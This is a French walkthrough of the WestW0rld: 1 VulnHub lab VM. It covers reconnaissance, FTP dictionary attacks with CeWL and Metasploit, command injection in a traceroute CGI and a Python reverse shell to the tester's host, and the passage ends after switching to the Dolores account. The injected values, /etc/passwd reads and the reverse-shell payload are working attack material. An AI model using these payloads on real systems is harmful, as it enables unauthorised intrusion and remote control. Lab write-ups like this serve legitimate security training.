


# WestW0rld: 1

WestW0rld: 1 est une machine virtuelle vulnérable, conçue par Yuqing Wang / Eugene et publiée sur VulnHub au mois de mai 2019. Elle a depuis été retirée du site car il s'avère qu'elle est incomplète (explications ci-dessous). L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

## Description

_This is a vulnerable lab challenge for the starters. If you are a big fan of westworld, you might be familiar with the flags. To complete this challenge, you need to achieve ten flags which contains some useful clues. The ultimate goal is to find and read the flag in the windows machine. You will require Linux skills and basic knowledge about web vulnerabilities, reverse engineering and password cracking. This lab contains two vulnerable machines: Ubuntu 18.04.2 & Windows XP Professional. The OVAs have been tested on VMware Workstation and VMware Fusion._

Contrairement à la majorité des challenges publiés sur VulnHub, cet OVA contiendrait non pas une mais bien deux machines vulnérables, l'une sous Ubuntu et l'autre sous Windows XP : un programme ma foi bien alléchant ! À l'heure où j'écris ces lignes, je n'ai vu aucun épisode de [la série télévisée éponyme](https://en.wikipedia.org/wiki/Westworld_(TV_series)) ; espérons que cela ne soit pas rédhibitoire pour la résolution de cette VM.

## Recherche d'informations avec netdiscover et nmap

Pour commencer, l'outil [__netdiscover__](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM WestW0rld : il s'agit de 192.168.56.101.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:10      1      60  Unknown vendor
192.168.56.100  08:00:27:38:27:38      1      60  PCS Systemtechnik GmbH
192.168.56.101  08:00:27:0c:78:c3      1      60  PCS Systemtechnik GmbH
```

Oui, VirtualBox sera utilisé tout au long de ce walkthrough parce que FTWW! Toute phase d'attaque commence par une analyse du système cible. Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. Au menu de cette VM : un accès en FTP (port 21) et un serveur Web Apache (port 80), sur lequel a été republié [un article d'Insider Inc.](https://www.insider.com/westworld-dolores-narrative-loop-gif-2016-10) sur la série TV. Bis repetita : attention aux spoilers !

```console
root@blinils:~# nmap -sT -sV -p- 192.168.56.101
Nmap scan report for 192.168.56.101
Host is up (0.00052s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 08:00:27:0C:78:C3 (Oracle VirtualBox virtual NIC)
```

## Génération d'une wordlist avec CeWL et attaque par dictionnaire sur FTP

Le service FTP sera le premier à être analysé... et hop, déjà un flag ! Il s'agit d'une citation de Maeve Millay, un personnage interprété par [Thandie Newton](https://en.wikipedia.org/wiki/Thandie_Newton). La connexion anonyme avec les identifiants ```anonymous:anonymous``` renvoie un message d'erreur _500 OOPS: vsftpd: refusing to run with writable root inside chroot()_ ([documentation](https://doc.ubuntu-fr.org/vsftpd#oopsvsftpdrefusing_to_run_with_writable_root_inside_chroot)) et aucun couple d'identifiants choisis au hasard, ```maeve:thandie``` par exemple, n'a fonctionné.

```console
root@blinils:~# ftp 192.168.56.101
Connected to 192.168.56.101.
220-<--flag: All my life, I've prided myself on being a survivor. But surviving is just another loop.-->
220 
Name (192.168.56.101:root): maeve
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
```

À défaut d'informations supplémentaires pour avancer sur cette piste, passons au serveur HTTP !



La seule lecture du contenu de la page (sans même regarder le code source !) nous donne le deuxième flag : _This world is just a speck of duct sitting on a much, much bigger world._ Est-ce volontaire ou une erreur de syntaxe dans les commentaires HTML ? Quoi qu'il en soit, un indice est également dévoilé dans l'article : _Dolores is a user and passwd is in this page. Use some tools to generate passwd maybe._

C'est là qu'intervient l'outil [__CeWL__](https://digi.ninja/projects/cewl.php) (_Custom Word List Generator_) créé par Robin Wood alias [DigiNinja](https://digi.ninja/about.php). CeWL peut extraire un ensemble de mots-clés dans une page Web donnée, et générer par la même occasion un dictionnaire de mots de passe. Ici, 84 mots de huit lettres ou plus ont été récupérés et stockés dans le fichier ```dicoWWorld8-X.txt```.

```console
root@blinils:~# cewl -d 1 -m 8 -w dicoWWorld8-X.txt http://192.168.56.101
CeWL 5.4.4.1 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

root@blinils:~# wc -l dicoWWorld8-X.txt
84 dicoWWorld.txt

root@blinils:~# head -n 5 dicoWWorld8-X.txt
Westworld
narrative
flowchart
Abernathy
Facebook
```

Le module [__ftp_login__](https://www.offensive-security.com/metasploit-unleashed/scanner-ftp-auxiliary-modules/) du framework Metasploit est en mesure d'automatiser cette [attaque par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking). Malheureusement, aucun de ces quatre-vingt-quatre mots de passe n'est celui de Dolores.

```console
root@blinils:~# msfconsole --quiet
msf5 > use auxiliary/scanner/ftp/ftp_login
msf5 auxiliary(scanner/ftp/ftp_login) > set BRUTEFORCE_SPEED 1
BRUTEFORCE_SPEED => 1
msf5 auxiliary(scanner/ftp/ftp_login) > set PASS_FILE dicoWWorld8-X.txt
PASS_FILE => dicoWWorld.txt
msf5 auxiliary(scanner/ftp/ftp_login) > set USERNAME Dolores
USERNAME => Dolores
msf5 auxiliary(scanner/ftp/ftp_login) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf5 auxiliary(scanner/ftp/ftp_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/ftp/ftp_login) > run

[*] 192.168.56.101:21     - 192.168.56.101:21 - Starting FTP login sweep
[!] 192.168.56.101:21     - No active DB -- Credential data will not be saved!
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Westworld (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:narrative (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:flowchart (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Abernathy (Incorrect: )
--snip--
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Sweetwater (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Bernathy (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Pinterest (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Collapse (Incorrect: )
[*] 192.168.56.101:21     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Soit la taille du mot de passe de Dolores est inférieure à huit caractères, soit il s'agit d'une fausse piste... réessayons avec des mots de passe entre quatre et sept caractères ! La commande ```sed``` permet de retirer à la fois les mots d'au moins huit lettres et les sauts de ligne superflus.

```console
root@blinils:~# cewl -d 1 -m 4 -w dicoWWorld.txt http://192.168.56.101
CeWL 5.4.4.1 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

root@blinils:~# sed -r 's/\b\w{8,}\s?\b//g' dicoWWorld.txt | sed '/^[[:space:]]*$/d' > dicoWWorld4-7.txt

root@blinils:~# wc -l dicoWWorld4-7.txt
292 dicoWWorld4-7.txt

root@blinils:~# head -n 5 dicoWWorld4-7.txt
Dolores
guest
with
Teddy
Insider
```

Un peu moins de trois cents mots de passe à tester cette fois-ci !

```console
msf5 auxiliary(scanner/ftp/ftp_login) > set PASS_FILE dicoWWorld4-7.txt
PASS_FILE => dicoWWorld4-7.txt
msf5 auxiliary(scanner/ftp/ftp_login) > run

[*] 192.168.56.101:21     - 192.168.56.101:21 - Starting FTP login sweep
[!] 192.168.56.101:21     - No active DB -- Credential data will not be saved!
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Dolores (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:guest (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:with (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Teddy (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Insider (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:then (Incorrect: )
[+] 192.168.56.101:21     - 192.168.56.101:21 - Login Successful: Dolores:loop
[*] 192.168.56.101:21     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

En parallèle, une analyse du site Web est menée avec l'outil [__DIRB__](https://tools.kali.org/web-applications/dirb), qui se sert d'une liste pré-établie de répertoires afin de déterminer d'éventuels répertoires cachés. Bingo, une page ```admin.php``` est présente, c'est peut-être à cet autre endroit-là que le mot de passe de Dolores doit être fourni !

```console
root@blinils:~# dirb http://192.168.56.101

--snip--
+ http://192.168.56.101/admin.php (CODE:200|SIZE:295)
+ http://192.168.56.101/cgi-bin/ (CODE:403|SIZE:297)
+ http://192.168.56.101/index.html (CODE:200|SIZE:143498)
+ http://192.168.56.101/server-status (CODE:403|SIZE:302)
--snip--
```

Avec un nouveau flag à la clé : _If you can't tell the difference, does it matter if I'm real or not?_

```console
root@blinils:~# curl http://192.168.56.101/admin.php
<html>
<body>


<form name="form1" action="" method="post">
<input type="password" name="password" />
<input type="hidden" name="sub" value="submit" />
<input type="submit" value="sub" />
</form>

<!--flag: If you can't tell the difference, does it matter if I'm real or not?-->

</body>
</html>
```

Nous y reviendrons plus tard car la connexion au serveur FTP est désormais possible avec ```Dolores:loop```.

## Analyse des fichiers flag.pdf et hackme.o du répertoire FTP de Dolores

```console
root@blinils:~# ftp 192.168.56.101
Connected to 192.168.56.101.
220-<--flag: All my life, I've prided myself on being a survivor. But surviving is just another loop.-->
220 
Name (192.168.56.101:root): Dolores
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-x---    2 1002     1002         4096 Apr 16 17:28 .
dr-xr-x---    2 1002     1002         4096 Apr 16 17:28 ..
-rw-r--r--    1 1002     1002          220 Apr 04  2018 .bash_logout
-rw-r--r--    1 1002     1002         3771 Apr 04  2018 .bashrc
-rw-r--r--    1 1002     1002          807 Apr 04  2018 .profile
-rw-r--r--    1 1002     1002         8980 Apr 16  2018 examples.desktop
-rw-r--r--    1 1000     1000        51862 Apr 16 17:18 flag.pdf
-rwxr-xr-x    1 0        0            8560 Apr 15 19:01 hackme.o
226 Directory send OK.

ftp> get flag.pdf
local: flag.pdf remote: flag.pdf
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.pdf (51862 bytes).
226 Transfer complete.
51862 bytes received in 0.01 secs (8.8368 MB/s)

ftp> get hackme.o
local: hackme.o remote: hackme.o
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for hackme.o (8560 bytes).
226 Transfer complete.
8560 bytes received in 0.00 secs (3.0336 MB/s)
```

Commençons par le fichier ```hackme.o``` !

```console
root@blinils:~# file hackme.o 
hackme.o: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter
/lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=54c479a8df6184150e5e506b4b21ebe7711af746,
not stripped

root@blinils:~# strings hackme.o
--snip--
<--flag:H
<--flag:H
 Oh? youH
 useH
<--flag:H
 Death oH
r suH
<--flag:H
 This isH
 notH
<--flag:H
 You areH
 cloH
Dreams dH
on't meaH
n anythiH
ng, theyH
 are jusH
t noise,H
 they arH
e not reH
al.-->
Felix LuH
AWAVI
AUATL
[]A\A]A^A_
It seems you have made some progress, be aware of what you type in this console. Robots may awake!
Watch, watch me pushing my dagger into your heart. Death is inevitable!--Maeve
--snip--

root@blinils:~# tr -dc '[:print:]' < hackme.o | sed 's/F<//g'
ELF>@0@8@@@@888      TTTDDPtdxxx<<QtdRtd  pp/lib64/ld-linux-x86-64.so.2GNUGNUTya^PkK!qF
0TM 7 >"libc.so.6__isoc99_scanfputs__stack_chk_failprintfstrcat__cxa_finalizestrcmp__li
bc_start_mainGLIBC_2.7GLIBC_2.4GLIBC_2.2.5_ITM_deregisterTMCloneTable__gmon_start___ITM
_registerTMCloneTableiifiipuiz               HH HtH5" %$ @%" h% h% h% h% h% h% f1I^HHPT
LH#H= DH= UH H9HtH Ht]f.]@f.H= H5 UH)HHHH?HHtHa Ht]f]@f.=Y u/H=7 UHtH=: H1 ]fDUH]fUHHdH
%(HE1H<--flag:HfH<--flag:H Oh? youHH  useH<--flag:H Death oH0H8@r suH<--flag:H This isH
PHX` notH<--flag:H You areHpHxE cloHDreams dHon't meaHEHUHn anythiHng, theyHEHUH are ju
sHt noise,HEHUH they arHe not reHEHUHal.-->HEHUHEHEEH=8HFelix LuHftzH5k H=gHHH=I u,HUHH
HHH=)H=HEdH3%(tf@AWAVIAUATL%N UH-N SAIL)HHHt 1LLDAHH9uH[]A\A]A^A_f.HHIt seems you have 
made some progress, be aware of what you type in this console. Robots may awake!%[^]%sW
atch, watch me pushing my dagger into your heart. Death is inevitable!--Maeve;<hxX(0zRx
+zRx$hpFJw?;*3$"D\2AC-D|eBBE B(H0H8M@r8A0A(B BBBP  o ooooo  GCC: (Ubuntu 7.3.0-27ubuntu
1~18.04) 7.3.08TtPpx       `!7 F my    x    .@ Gcw   0e( +  2!5 A
["Pcrtstuff.cderegister_tm_clones__do_global_dtors_auxcompleted.7696__do_global_dtors_a
ux_fini_array_entryframe_dummy__frame_dummy_init_array_entryCTF.c__FRAME_END____init_ar
ray_end_DYNAMIC__init_array_start__GNU_EH_FRAME_HDR_GLOBAL_OFFSET_TABLE___libc_csu_fini
_ITM_deregisterTMCloneTableputs@@GLIBC_2.2.5_edata__stack_chk_fail@@GLIBC_2.4printf@@GL
IBC_2.2.5__libc_start_main@@GLIBC_2.2.5__data_startstrcmp@@GLIBC_2.2.5__gmon_start____d
so_handle_IO_stdin_used__libc_csu_initstr__bss_startmain__isoc99_scanf@@GLIBC_2.7strcat
@@GLIBC_2.2.5__TMC_END___ITM_registerTMCloneTable__cxa_finalize@@GLIBC_2.2.5.symtab.str
tab.shstrtab.interp.note.ABI-tag.note.gnu.build-id.gnu.hash.dynsym.dynstr.gnu.version.g
nu.version_r.rela.dyn.rela.plt.init.plt.got.text.fini.rodata.eh_frame_hdr.eh_frame.init
_array.fini_array.dynamic.data.bss.comment88#TT 1tt$DoN V^oko@zBPPpppxx<    p  0*@x+w/
```

À première vue, l'exercice consiste à trouver la bonne valeur pour que le binaire affiche l'un des flags.

```console
root@blinils:~# ./hackme.o 
It seems you have made some progress, be aware of what you type in this console. Robots may awake!
Dolores
Watch, watch me pushing my dagger into your heart. Death is inevitable!--Maeve

root@blinils:~# ./hackme.o 
It seems you have made some progress, be aware of what you type in this console. Robots may awake!
Felix Lutz
<--flag:Dreams don't mean anything, they are just noise, they are not real.-->

root@blinils:~# for word in $(cat dicoWWorld.txt); do echo $word | ./hackme.o | grep flag; done
root@blinils:~# 

root@blinils:~# for word in 'Felix Lutz'; do echo $word | ./hackme.o | grep flag; done
<--flag:Dreams don't mean anything, they are just noise, they are not real.-->

root@blinils:~# head -n10 dicopersos.txt 
Abernathy
Akane
Akecheta
Angela
Antoine
Antoine Costa
Armistice
Arnold
Arnold Weber
Ashley

root@blinils:~# IFS=$'\r\n'; for word in $(cat dicopersos.txt); \
do echo "$word"; echo "$word" | ./hackme.o; done | grep -B 2 flag
Watch, watch me pushing my dagger into your heart. Death is inevitable!--MaeveFelix Lutz
It seems you have made some progress, be aware of what you type in this console. Robots may awake!
<--flag:Dreams don't mean anything, they are just noise, they are not real.-->Flood
```

Il semble y avoir d'autres flags à afficher : le binaire ```hackme.o``` doit receler d'autres secrets !

Poursuivons avec le fichier PDF, qui reprend le flag de la bannière d'affichage à la connexion FTP, mais l'indice fourni semble masqué par un rectangle noir. Fort heureusement, on peut le récupérer sans problème en copiant-collant tout le document dans un éditeur texte. D'autre part, une analyse des métadonnées du fichier avec l'outil [__exiftool__](https://exiftool.org/) montre que le fichier a été créé par un dénommé Mango Wang. Voici le contenu _in extenso_ du fichier PDF.

```console
root@blinils:~# exiftool flag.pdf | grep Creator
Creator                         : Mango Wang
Creator Tool                    : Microsoft® Word for Office 365

Dolores.
Your memory is wiped every day.
<-- flag: All my life, I’ve prided myself on being a survivor. But surviving is just another loop. -->
You are skeptical about the nature of the world.
Never place your trust in us. We’re only human. Inevitably, we will disappoint you.
Get this hint and you will keep your memories of previous days.
Hint:
/cgi-bin/lawrence
```

## Injection de commandes sur trace.cgi avec curl/Burp et dépôt de reverse shell

L'indice redirige vers une page nommée ```traceroute``` qui, avec son champ ```ip```,
laisse présager une [injection de commandes](https://owasp.org/www-community/attacks/Command_Injection).

```console
root@blinils:~# curl http://192.168.56.101/cgi-bin/lawrence
<html><head><title>Traceroute
</title></head>
<b><--flag You can't play god without being acquainted with the devil.--></b>
<br>Enter</br>
<form action=/cgi-bin/trace.cgi
	  method="GET">
<textarea name="ip" cols=40 rows=4>
</textarea>
<input type="submit" value="Trace">
</form>
```

Le bouton est inopérant car la page ```trace.cgi``` est située dans ```/cgi-bin/lawrence/trace.cgi``` et non ```/cgi-bin/trace.cgi```.

```console
root@blinils:~# curl http://192.168.56.101/cgi-bin/trace.cgi?ip=127.0.0.1
--snip--
<p>The requested URL /cgi-bin/trace.cgi was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 192.168.56.101 Port 80</address>
--snip--

root@blinils:~# curl http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=127.0.0.1
<html><head><title>Traceroute
--snip--
<pre>
traceroute to 127.0.0.1 (127.0.0.1), 30 hops max, 60 byte packets
 1  localhost (127.0.0.1)  0.013 ms  0.003 ms  0.003 ms
</pre>
--snip--
```

Le but du jeu consiste à exécuter des commandes auxquelles nous n'avons normalement pas droit. Généralement, l'exploitation de cette vulnérabilité est réalisée à l'aide d'opérateurs logiques ([_control operators_](https://www.w3resource.com/linux-system-administration/control-operators.php) en anglais) : en effet, il est possible d'enchaîner plusieurs commandes à la suite, séparées par exemple par un point-virgule. L'injection de commandes est confirmée, voici les données qui ont pu être exfiltrées après quelques essais.

```console
root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Bwhoami 2>&1 | tr -d '\n' | grep -oE '<pre>[^<]*</pre>' #whoami
<pre>www-data</pre>

root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Bls 2>&1 | tr -d '\n' | grep -oE '<pre>[^<]*</pre>' #ls
<pre>HINTexample.shlawrence</pre>
```

```grep``` montre vite ses limites avec les sauts de ligne et les retours chariot, heureusement ```sed``` arrive à la rescousse !

```console
root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Bls 2>&1 | sed -n '/<pre>/,/<\/pre>/p' #ls
<pre>
HINT
example.sh
lawrence
</pre>

root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Bcat%20HINT 2>&1 | sed -n '/<pre>/,/<\/pre>/p' #cat HINT
<pre>
<--flag: I'm afraid in order to escape this place, you will need to suffer more.-->
The final flag is a file on root's desktop. Get it through the webshell.</pre>

root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Buname%20-v 2>&1 | sed -n '/<pre>/,/<\/pre>/p' #uname -v
<pre>
#18~18.04.1-Ubuntu SMP Fri Mar 15 15:27:12 UTC 2019
</pre>
```

L'option ```-G``` de __grep__ suivie de ```--data-urlencode``` permet de nous affranchir de l'encodage du paramètre ```ip```. 

```console
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=JUNK;uname -v;" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
#18~18.04.1-Ubuntu SMP Fri Mar 15 15:27:12 UTC 2019
</pre>
```

Et pour davantage de lisibilité, il est possible de stocker la commande souhaitée dans une variable d'environnement.

```console
root@blinils:~# export WEST='tail -n2 /etc/passwd'
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
Dolores:x:1002:1002::/home/Dolores:/bin/sh
Arnold:x:1003:1003::/home/Arnold:/bin/sh
</pre>

root@blinils:~# export WEST='JUNK; cat /home/Arnold/flag'
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
# <--flag: The piano doesn’t murder the player if it doesn’t like the music.--></pre>
```

Avec cette injection de commandes, il est aisé de démontrer que la page ```admin.php``` trouvée par DIRB est un leurre.

```console
root@blinils:~# export WEST='JUNK; cat /var/www/html/admin.php'
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
<html>
<body>


<form name="form1" action="" method="post">
<input type="password" name="password" />
<input type="hidden" name="sub" value="submit" />
<input type="submit" value="sub" />
</form>

<!--flag: If you can't tell the difference, does it matter if I'm real or not?-->

</body>
</html></pre>
```

À présent, il s'agit d'obtenir un shell sur le serveur ! Et le moins que l'on puisse dire, c'est que ça n'a pas été une mince affaire. Si l'on voit assez rapidement que le répertoire ```/tmp``` est un bon endroit pour le déposer — www-data n'a pas les droits en écriture dans le répertoire ```/var/www/html``` — toutes mes tentatives avec PHP, [__netcat__](https://nc110.sourceforge.io/), curl, wget ou encore bash inspirées du [_Reverse-shell one-liner Cheat Sheet_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) de Yann Cam ont été semblables à un coup d'épée dans l'eau.

Fort heureusement, le proxy [__Burp__](https://portswigger.net/burp/documentation/desktop/getting-started/proxy-setup/browser) est venu à la rescousse, à la suite de trop nombreux soucis répétés d'encodage. Son module _Repeater_ permet de modifier beaucoup plus facilement les données de la requête avant envoi, et donc à la fois de corriger le chemin ```/cgi-bin/trace.cgi``` en ```/cgi-bin/lawrence/trace.cgi``` dans le formulaire et le champ ```ip``` dans l'URL. Seul hic : l'encodage du signe égal, qui conserve sa valeur en hexadécimal ```%3d``` ce qui plait moyennement à l'interpréteur Python.

```console
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
import socket,subprocess,os;s%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p%3dsubprocess.call(["/bin/sh","-i"]);
</pre>
```

Astuce : l'assignation d'une variable en Python peut très bien se faire sans signe égal, grâce à la méthode ```__setitem__```.

```import socket,subprocess,os;globals().__setitem__("s", socket.socket(socket.AF_INET,socket.SOCK_STREAM));s.connect(("192.168.56.102",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);globals().__setitem__("p", subprocess.call(["/bin/sh","-i"]));' > /tmp/shell.py```

Ainsi, la bonne valeur du paramètre ```ip``` transmis via Burp ressemble à ceci.

```127.0.0.1;echo 'import socket,subprocess,os;globals().__setitem__("s", socket.socket(socket.AF_INET,socket.SOCK_STREAM));s.connect(("192.168.56.102",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);globals().__setitem__("p", subprocess.call(["/bin/sh","-i"]));' > /tmp/shell.py```

Ah au fait, c'est __python3__ qui est installé ! Il faudra donc appeler le binaire ```/usr/bin/python3``` et non ```python``` simplement.

```console
root@blinils:~# export WEST='JUNK; which python'

root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
</pre>

root@blinils:~# export WEST='JUNK; which python3'

root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
/usr/bin/python3
</pre>
```



```console
root@blinils:~# export WEST='JUNK; python3 /tmp/shell.py'

root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'

--nothing--
```

Dans un autre terminal, on écoute attentivement sur le port 12345... et c'est gagné, un shell apparaît !

```console
root@blinils:~# nc -lvp 12345
listening on [any] 12345 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 47366
/bin/sh: 0: can't access tty; job control turned off

$ id; uname -r -v
uid=33(www-data) gid=33(www-data) groups=33(www-data)
4.18.0-17-generic #18~18.04.1-Ubuntu SMP Fri Mar 15 15:27:12 UTC 2019

$ python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Dolores dolor sit amet, consectetur buffer overflum ?

Lecture recommandée : _[Fixing a raw shell with Python and stty](https://nullsec.us/fixing-a-raw-shell/)_ sur le site NullSecurity (@BeanBagKing).

Les scripts habituels [__LinEnum.sh__](https://github.com/rebootuser/LinEnum) et [__linux-exploit-suggester.sh__](https://github.com/mzet-/linux-exploit-suggester) ne donnent a priori rien de concret ; la version Ubuntu installée date tout juste de mars 2019. Fort heureusement, notre chère Dolores utilise le même mot de passe partout ! C'est cool d'avoir un shell, mais ce serait tout de même bien mieux avec un autre compte Unix... sans rancune, ```www-data``` !

```console
www-data@ubuntu:/tmp$ su - Dolores
su - Dolores
Password: loop

$ id
id
uid=1002(Dolores) gid=1002(Dolores) groups=1002(Dolores)

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

Dolores@ubuntu:~$ id
id
uid=1002(Dolores) gid=1002(Dolores) groups=1002(Dolores)

